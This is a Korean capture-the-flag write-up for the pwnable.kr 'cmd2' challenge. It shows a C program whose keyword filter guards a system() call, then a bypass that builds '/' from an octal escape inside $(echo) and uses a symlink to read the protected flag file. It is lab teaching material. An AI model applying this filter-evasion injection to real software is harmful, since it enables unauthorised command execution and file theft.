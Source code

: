 ```yaml
---
title: Pwnable KR - cmd2
date: 2016-04-25 19:39:00 +0900 KST
categories: [write-up]
---
```


## 문제

![Pwnable KR cmd2](pwnablr-kr-cmd2.png)

9점 문제.

cmd2.c의 내용은 아래와 같다.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
```

/만 쓸 수 있으면 풀 수 있을 것 같다.
그렇다면 어떻게 필터링을 피할 수 있을까?

## 풀이

```console
$ echo /
/
$ $(echo /)
-bash: /: Is a directory
```

위와 같은 쉘 스크립트의 특성을 활용해보자

$(echo /)bin$(echo /)cat flag

/bin/cat flag를 표현해봤다. 위처럼 그대로 넣으면 안되고,
아래처럼 좀 수정해서 넣어줘야 한다.

./cmd '$(echo "\57")bin$(echo "\57")cat flag'

/ 문자는 8진수 아스키 코드로 57이고, "로 감싸야 한다.
변형 없이 그대로 전달해야하므로 인자 전체는 '로 감싸야 한다.

마지막으로 flag만 필터를 피하면 되는데,
이건 cmd1 풀 때처럼 심볼릭 링크를 쓰면 된다.

아래는 풀이

```sh
mkdir /tmp/cmd2k
cd /tmp/cmd2k
ln -s /home/cmd2/cmd2 cmd2
ln -s /home/cmd2/flag f
./cmd2 '$(echo "\57")bin$(echo "\57")cat f'
```

아이 신나
